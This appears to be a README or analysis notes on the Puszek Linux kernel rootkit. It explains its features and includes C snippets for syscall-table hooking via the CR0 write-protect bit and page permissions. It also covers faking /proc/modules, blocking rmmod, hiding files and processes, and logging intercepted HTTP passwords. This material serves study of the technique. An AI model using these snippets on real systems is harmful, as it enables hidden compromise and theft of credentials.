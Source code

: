 # Puszek Rootkit

## Table of contents 
- [Puszek Rootkit](#puszek-rootkit)
  - [Table of contents](#table-of-contents)
  - [Features](#features)
  - [Digging into the features](#digging-into-the-features)
    - [Syscall Table hooking](#syscall-table-hooking)
    - [Hide module](#hide-module)
    - [Unable to rmmod](#unable-to-rmmod)
    - [Hiding Files and Processes](#hiding-files-and-processes)
    - [Storing  the HTTP requests](#storing-the-http-requests)
    - [Inode modification trivia](#inode-modification-trivia)

## Features

    - Hide files that ends on configured suffix (".rootkit" by default).
    - Hide processes that cmdline contains defined text (COMMAND_CONTAINS - ".//./" by default).
    -  Intercept GET and POST HTTP requests and log to `/etc/http_requests.rootkit`.
        - When password is found in HTTP request it's additionally logged to `/etc/passwords.rootkit`
    - Rootkit module is invisible in lsmod output, file /proc/modules, and directory /sys/module/.
    - It isn't possible to unload rootkit by rmmod command.
    - Netstat and similar tools won't see TCP connections of hidden processes.

## Digging into the features
  

### Syscall Table hooking
        - Get address of syscall table
            - Syscall table address no longer available in the kallsysms 
                - Search memory for the pointer table! (maybe another chokepoint!)
                - https://bbs.archlinux.org/viewtopic.php?id=139406
        - Write to CR0 - Replace the write protect bit in CR0, hook functions
```c
#if SYSCALL_MODIFY_METHOD == CR0
    original_cr0 = read_cr0();
    write_cr0(original_cr0 & ~0x00010000);```
        - Make the table writeable -  using the address
            - ```c
#if SYSCALL_MODIFY_METHOD == PAGE_RW
    make_rw((long unsigned int)sys_call_table_);
#endif

... hook here...

#if SYSCALL_MODIFY_METHOD == PAGE_RW
    make_ro((long unsigned int)sys_call_table_);
#endif

int make_rw(unsigned long address)
{
    unsigned int level;
    pte_t *pte = lookup_address(address, &level);
    pte->pte |= _PAGE_RW;
    return 0;
}
 
//set a page read only
int make_ro(unsigned long address)
{ 
    unsigned int level;
    pte_t *pte = lookup_address(address, &level);
    pte->pte = pte->pte & ~_PAGE_RW;
    return 0;
}
```

### Hide module
        - `/proc/modules` - 
            - Read from the old one, replace rootkit and return. Done by hooking open syscall [fake file at `/etc/modules.rootkits`]

```c
if (strcmp(filename, "/proc/modules") == 0)
{
	   
    new_path = kzalloc(strlen("/etc/modules") + strlen(FILE_SUFFIX) + 1,
    	    GFP_KERNEL);
	// open new path
  	// read the realmodule file
    // replace the rootkit after reading
    // write fake to the old file
}
```
        - `/proc/net/tcp` - 
            - Same as above with the temp file being - `/etc/net.rootkits`
            - Parse each line, check if inode belongs to the process if yes then remove
        - These make it hard for other commands written on top of `/proc/modules` hard to detect the module. 
### Unable to rmmod
        - It seems that allowing the userspace process not to open the rootkit blocks it from removing the module
```c
#if UNABLE_TO_UNLOAD
    }
    else if (strncmp(filename, rootkit_path, rootkit_path_len) == 0)
    {
    	ret = -ENOENT;
#endif
```

### Hiding Files and Processes
        - Using modifications to inodes
        - Hiding files - 
            - hooking `new_sys_getdents` and `new_sys_getdents64` - checks if the file with prefix is present in the dirent. if found the entry is deleted.

### Storing  the HTTP requests
        - syscall - `send_to` syscall hooked and the tcp data is checked for presence of headers.

### Inode modification trivia
    - It maintains a list of hidden inodes for the processes
    - The list is then checked during each iteration
    - Inodes of processes are collected by opening `/proc/<pid>/fd` directory and then reading the links to get the inodes. (it ignores fd's 0-2 maybe because they are the standard ones)

